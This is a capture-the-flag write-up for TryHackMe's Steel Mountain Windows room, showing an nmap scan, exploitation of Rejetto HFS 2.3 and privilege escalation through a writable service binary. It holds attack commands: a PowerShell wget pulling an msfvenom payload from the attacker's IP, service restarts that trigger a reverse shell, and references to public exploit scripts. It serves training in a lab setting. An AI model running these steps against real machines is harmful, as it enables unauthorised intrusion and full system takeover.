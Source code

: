 ```yaml
---
title: Steel Mountain Writeup | TryHackMe
date: 2022-01-28 00:00:00 +/-TTTT
categories: [Writeup, TryHackMe]
tags: [writeup, tryhackme, windows, powershell, nmap, metasploit]
author:
  name: v3r4x
---
```



## Overview

This is my writeup for the Steel Mountain room on TryHackMe.  This room challenges you to exploit a Windows machine with, and without, metasploit.  This is an easy room so if you are new to Windows exploitation and privilege escalation, then this room may be quite useful.

## How to Access

I completed this CTF challenge on TryHackMe.

Link to the room:
- https://tryhackme.com/room/steelmountain

## Steps

I began with an nmap scan:

```
$ nmap -sC -sV -oN initial 10.10.76.203
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-20 21:51 BST
Nmap scan report for 10.10.76.203
Host is up (0.049s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2021-05-19T20:50:34
|_Not valid after:  2021-11-18T20:50:34
|_ssl-date: 2021-05-20T20:52:58+00:00; 0s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:22:3e:9b:b5:df (unknown)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-20T20:52:53
|_  start_date: 2021-05-20T20:50:27

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.95 seconds
```

As you can see, there are two web servers running - one on port 80 and another on port 8080.  The mainpage of the former is shown below:

![mainpage](/assets/posts/20220128/1_mainpage.png)

Inspecting the source code of the main page reveals the name of the employee of the month:

![bill harper](/assets/posts/20220128/2_bill_harper.png)

I then decided to check the other web server on port 8080.

![8080 web server](/assets/posts/20220128/3_other_web_server.png)

Inspecting the source code shows that it is running a Rejetto HTTP File Server (version 2.3).  After some research, I found that versions 2.3.x are vulnerable to remote code execution (RCE).

I then booted up metasploit and configured the exploit:

![msfconsole](/assets/posts/20220128/4_metasploit.png)

![configuration](/assets/posts/20220128/5_payload_config.png)

![payload](/assets/posts/20220128/6_exploit.png)

As shown in the above screenshot, I gained access to the machine as the *bill* user.  The `user.txt` flag is stored in his Desktop:

![user.txt](/assets/posts/20220128/7_user_flag.png)

The next step is to escalate privileges.  I used the `PowerUp.ps1` script which can be downloaded [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).  I then used the `upload` command to upload the script to the machine:

```
meterpreter > upload /opt/windows/powersploit/Privesc/PowerUp.ps1
[*] uploading  : /opt/windows/powersploit/Privesc/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 549.65 KiB of 549.65 KiB (100.0%): /opt/windows/powersploit/Privesc/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /opt/windows/powersploit/Privesc/PowerUp.ps1 -> PowerUp.ps1
```

I then loaded powershell using `load powershell` and executed the script using `powershell_shell`:

![8_CanRestart.png]

As shown above, the **AdvancedSystemCareService9**'s `CanRestart` parameter is set to *true*, meaning that you can restart this service on the system.  The directory `C:\Program Files (x86)\IObit\Advanced SystemCare` is also write-able, meaning that you can replace the application with a malicious one.

I created the exploit using `msfvenom`:

![ASCService.exe](/assets/posts/20220128/9_creating_exploit.png)

As this was uploading, I created a netcat listener on port 443.

I then uploaded it using the same command from earlier and restarted the service:

![restarting](/assets/posts/20220128/10_restarting_service.png)

Once this was complete, I was logged in as the admin user:

![privesc](/assets/posts/20220128/11_netcat.png)

From there, I found the `root.txt` flag in the `C:\Users\Administrator\Desktop` directory:

![root.txt](/assets/posts/20220128/12_root_flag.png)

The final part of this challenge is to do it all without metasploit.  This is easily done using the Python exploit found [here](https://www.exploit-db.com/exploits/39161).

After downloading this exploit, I put in my IP address.  The instructions state that you need to have a web server and a netcat listener active at the same time for this to work.  It also tells you to download a static binary for netcat found [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe).

In one terminal, I started the python web server, and in another I created a netcat listener.  In a third terminal, I executed the Python exploit until my netcat listener caught the callback.

Instead of using the `PowerUp.ps1` script to find the vulnerable service, the instructions tell you to upload and execute winPEAS to enumerate the machine (found [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases)).  

![winPEAS](/assets/posts/20220128/13_uploading_winPEAS.png)

Similar to the metasploit methodology, you create the payload using `msfvenom`, only this time you pull it into the system using powershell:

```
C:\Program Files (x86)\IObit>powershell -c wget "https://10.9.150.161:80/ASCService.exe"
```

Then, use `COPY` to place it into the correct directory:

```
C:\Program Files (x86)\IObit>COPY ASCService.exe "Advanced SystemCare"
```

Finally, restart the services as before (make sure you have netcat listening):

```
C:\Program Files (x86)\IObit> powershell -c sc stop AdvancedSystemCareService9
C:\Program Files (x86)\IObit> powershell -c sc start AdvancedSystemCareService9
```

And that's it! You've gained root twice!

## Summary and Feedback

Overall this was a pretty straightforward room.  For myself, Windows exploitation is not my strongest area so this machine was a learning experience for me.  I hope you enjoyed this writeup.
